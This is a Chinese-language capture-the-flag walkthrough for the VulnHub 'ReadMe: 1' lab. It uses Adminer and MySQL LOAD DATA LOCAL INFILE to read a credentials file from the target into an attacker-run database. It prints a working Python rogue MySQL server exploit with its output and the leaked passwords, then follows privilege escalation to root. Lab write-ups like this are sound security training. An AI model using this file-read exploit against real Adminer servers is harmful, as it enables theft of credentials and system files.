 # ReadMe: 1

2025.02.22 https://www.vulnhub.com/entry/readme-1,336/

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
```

web 扫描发现 http://192.168.5.40/info.php 是 phpinfo 页面，mysql 版本 mysqlnd 5.0.12-dev ，仔细看一下 info.php 中 mysql 的配置信息，发现 mysqli.allow_local_infile = on 这里就可以加载客户端所在系统的文件到数据库，同时 open_basedir 没有设置。

发现另外一个页面 http://192.168.5.40/adminer.php 是个数据库管理页面，同时发现版本是 4.4.0 。这里就可以结合上面的配置，读取运行 adminer 网页的系统上的文件，前提是只要这个 adminer 能够连接远程的 mysql 服务就可以，adminer 默认开启远程连接。在 adminer 的后续高版本 4.6.3 上已经修复了这个本地读取的漏洞。

发现 http://192.168.5.40/reminder.php 里面说密码在 txt 文件中，然后下面是一个搜索 username 的搜索框，输入单引号报错，存在 sql 注入，直接使用 sqlmap 跑，但是没发现信息，查看源码，发现图片的路径有提示：

```
that-place-where-i-put-that-thing-that-time/565b0f4691fe5
```

发现了目录的名字 that-place-where-i-put-that-thing-that-time，打开这个目录链接 http://192.168.5.40/that-place-where-i-put-that-thing-that-time/ 发现 creds.txt：

```
creds.txt -> /etc/julian.txt
```

这里需要读取到这个 /etc/julian.txt 文件。

可以利用 adminer 远程连接我们自己搭建的 mysql，然后利用 load local data 读取到目标机器上的 /etc/julian.txt 文件到我们自己搭建的数据库。

在 kali 上授权远程数据库连接，创建 test 数据库和 test 表用于接收数据：

```
grant all privileges on *.* to 'root'@'%' identified by 'mysql';

create database test;
use test;
create table test(name varchar(500));

SET GLOBAL local_infile = true;
SHOW GLOBAL VARIABLES LIKE 'local_infile';  # 要保证自己搭建的mysql开启这个参数
+---------------+-------+
| Variable_name | Value |
+---------------+-------+
| local_infile  | ON    |
+---------------+-------+
```

在 adminer.php 上连接我们自己 kali 上的数据库(这里服务器地址填 kali 的 ip 地址)，在 adminer 中执行下面语句导入本地文件：

```
load data local infile '/etc/julian.txt' into table test;    # 读取mysql客户端也就是运行adminer.php的机器上的本地文件到数据库。不加local是读取mysql服务器的文件，添加local参数为读取client本地文件。
```

这时在读取这个表就能看到 julian 的 ssh 连接密码：

```
select * from test;
+-----------------------------------------------------------------------------+
| name                                                                        |
+-----------------------------------------------------------------------------+
| U: julian                                                                   |
| P: I_mean...WhoThoughtLettingTheMySQLClientTransmitFilesWasAGoodIdea?Sheesh |  <-- ssh的连接密码
+-----------------------------------------------------------------------------+
```

或者自己用 python 搭建一个 mysql 的模拟服务端，也可以读取文件：

```
import socket
import logging
import sys
logging.basicConfig(level=logging.DEBUG)

filename=sys.argv[1]
sv=socket.socket()
sv.setsockopt(1,2,1)
sv.bind(("",33060))
sv.listen(5)
conn,address=sv.accept()
logging.info('Conn from: %r', address)
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
logging.info("auth okay")
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
logging.info("want file...")
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)
logging.info(content)
conn.close()
```

使用 python2 运行上述脚本，然后在 adminer.php 上进行连接，server 输入 192.168.5.3:33060 , 用户名和密码随意输，直接点 login

```
python2 exp.py '/etc/julian.txt'

INFO:root:Conn from: ('192.168.5.40', 43350)
INFO:root:auth okay
INFO:root:want file...
INFO:root:VU: julian
P: I_mean...WhoThoughtLettingTheMySQLClientTransmitFilesWasAGoodIdea?Sheesh
```

这里有这个漏洞的详细解析：https://wiki.96.mk/Web%E5%AE%89%E5%85%A8/Adminer/Adminer%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E/

也可以直接使用这个 https://github.com/p0dalirius/CVE-2021-43008-AdminerRead exp 的利用。

登陆后拿到了 user flag：

```
julian@readme:~$ cat  user.txt
2e640cbe2ea53070a0dbd3e5104e7c98
```

julian 没有 sudo 权限，同时其他 suid 和 crontab 等都没有利用路径。

这里在另外一个用户 /home/tatham 中发现了 payload.bin 和 poc.c ，根据文件命名，像是提权提示。需要得到 payload.bin 中的 shellcode 信息，将 payload 中的二进制代码复制到 poc.c 中进行编译，并且用 gdb 做了一些汇编代码修复。

最终得到了该用户的登陆密码：

```
U28uLi5Zb3VGaWd1cmVkT3V0SG93VG9SZWNvdmVyVGhpc0h1aD9HR1dQbm9SRQ==
```

对上面进行 base64 解码得到密码：

```
So...YouFiguredOutHowToRecoverThisHuh?GGWPnoRE
```

切换到 tatham 后，sudo -l 发现是 ALL 可以直接提权到 root：

```
root@readme:~# cat root.txt
52eeb6cfa53008c6b87a6c79f4347275
```
